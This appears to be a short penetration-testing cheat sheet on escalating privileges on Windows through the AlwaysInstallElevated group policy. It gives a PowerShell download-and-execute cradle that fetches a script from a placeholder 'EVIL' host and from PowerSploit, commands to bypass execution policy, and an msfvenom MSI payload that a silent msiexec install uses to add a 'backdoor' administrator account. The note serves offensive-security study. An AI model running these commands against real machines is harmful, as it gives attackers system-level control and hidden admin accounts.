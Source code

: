 ## Always Install Elevated

Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard user wants to install an application which requires system privileges and the administrator would  like to avoid to give temporary local administrator access to a user.

Get https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

In Powershell
```
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
or
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
```

```
powershell -ep bypass
Import-Module PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

If the last command returns True, system is vulnerable.

## Exploitation Method 1 - Required GUI/RDP
You can add an admin user by typing the following command.

```
Write-UserAddMSI 
```

You will get a prompt to enter the username and the password for the new user.

## Exploitation Method 2

https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842

Generate a msfvenom payload in msi format.

`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`

Install the payload using

`msiexec /quiet /qn /i C:\Windows\Temp\setup.msi`

Check that the user was created 

`net localgroup Administrators`

Verify user

`C:\Windows\System32> runas /user:backfoor "dir C:\Users\Administrator"`


### References
https://pentestlab.blog/2017/02/28/always-install-elevated/
